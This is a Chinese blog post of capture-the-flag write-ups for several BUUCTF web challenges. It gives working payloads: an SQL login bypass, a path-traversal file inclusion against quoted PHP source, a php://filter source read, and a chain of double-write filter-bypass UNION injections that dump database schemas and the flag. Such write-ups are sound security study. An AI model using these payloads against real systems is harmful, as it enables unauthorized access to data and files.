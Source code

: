 ```yaml
---
title: BUUCTF-web刷题
tags: 
  - web
  - CTF
category: WriteUP
permalink: /archives/44511/
published: 2022-08-09 20:02:51
---
```


> BUUCTF平台的web题，持续刷。

## [极客大挑战 2019]EasySQL

- 题目：

![img](./images/1659965485785-6b64d659-c5b2-4c84-a2d6-8adca00fb79f.png)

- 有登录框，第一联想到利用sql注入，直接尝试万能密码`' or '1'='1`登录

![img](./images/1659965617560-a5ba0dd4-aa1f-42b2-858c-0228a48d5ff0.png)

## [HCTF 2018]WarmUp

- 一进去就只有一个滑稽脸，直接查看源码，得到source.php，进去得到源码

![img](./images/1659966780771-950e19e1-5821-4413-a295-95f5b8e4e69c.png)

- 源码：

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

> 1、代码审计，发现还有一个hint.php，进去后得到`flag not here, and flag in ffffllllaaaagggg`，那也就是flag在ffffllllaaaagggg里，但是没有具体说明是在那个目录下，因此构造时候需要依次通过…/…/构造尝试，去查看到底是几层的根目录
>
> 2、代码审计，发现是白名单验证，文件包含只能包含source.php和hint.php
>
> 3、根据后面的if条件得知，file不能为空，必须为字符串，还要通过checkfile()函数的检查，才能包含。
>
> 4、其中检查共有三次，第三次要经过url解码
>
> 5、payload：`file=source.php%253f/../../../../../../ffffllllaaaagggg`

![img](./images/1659967349372-dd08f2da-cd70-4bf1-837d-72ae29d9a6b4.png)

## [极客大挑战 2019]Havefun

- 查看源码

![img](./images/1659967412083-2a52fb54-ea7b-4b91-afcf-d13ac14f417b.png)

- 根据源码很容易得到payload：`?cat=dog`

![img](./images/1659967477695-b75a0926-7bd4-4aec-9fd6-dc9ceec4afa0.png)

## [ACTF2020 新生赛]Include

- 一上来直接给了一个tips超链接，然后进去得到

![img](./images/1659967617876-e53455d1-be03-490a-9535-2b080959168d.png)

> 观察url发现有flag.php，结合题目判断这题是php伪协议
>
> payload：`?file=php://filter/read=convert.base64-encode/resource=flag.php`
>
> 把得到的base64字符串进行解码

![img](./images/1659967946632-5f593b96-3985-40fc-b130-d6970949269d.png)

## [ACTF2020 新生赛]Exec

- 发现是一个ping的命令执行，测试一下其他命令是否也能执行，是成功的

![img](./images/1659968049937-11d102a4-aad2-4521-addc-2565f4365f77.png)

- 那就直接抓取flag

![img](./images/1659968097734-9507a5b1-d1c7-4c96-9799-28142ac652c8.png)

## [极客大挑战 2019]BabySQL

- 题目：

![img](./images/1660980135444-9e2c836c-0b7b-416a-bec3-448669307193.png)

- 尝试用admin登录失败

![img](./images/1660980292881-fe4cd226-1a20-4168-b380-81049dd174a2.png)

- 进行sql注入

- payload：`?username=1' order by 3&password=admin`

![img](./images/1660980630189-828aecb0-e231-480b-9afe-ae74878e637a.png)

- 可以看到order的or和by均被过滤掉了

- 尝试联合注入

![img](./images/1660980811662-e338fa89-2fa7-4dcf-aba6-7a04c76af288.png)

> 同样union和select也都被过滤掉了
>
> 利用双写绕过，发现有3个字段

- payload：`?username=' oorrder bbyy 4--+&password=admin`

![img](./images/1660981906860-fa3011f9-ef66-4488-9a17-60d972a3fd6f.png)

- 回显位为第二个和第三个字段

- payload：`?username=' ununionion seselectlect 1,2,3--+&password=admin`

![img](./images/1660982012073-e323a752-31ff-482b-8c78-bb5d7f3cd5d9.png)

- 查所有库

- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(schema_name) frfromom infoorrmation_schema.schemata)--+&password=admin`

![img](./images/1660983995572-138d1d45-29d6-4c8e-8214-3849ec5c205d.png)

- 查ctf库中的所有表
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='ctf') --+&password=admin`

![img](./images/1660984181446-440ed3b8-df44-4bd8-bdf6-23ce262e07ee.png)

- 查Flag表中的所有字段
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='Flag') --+&password=admin`

![img](./images/1660984384749-570e6518-f223-45f2-9cc9-5ee6d769ad2c.png)

- 查看flag字段内的内容
- paylaod：`?username=' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag--+&password=admin`

![img](./images/1660983468939-228328bb-4756-402f-884b-4a9cfd20a403.png)
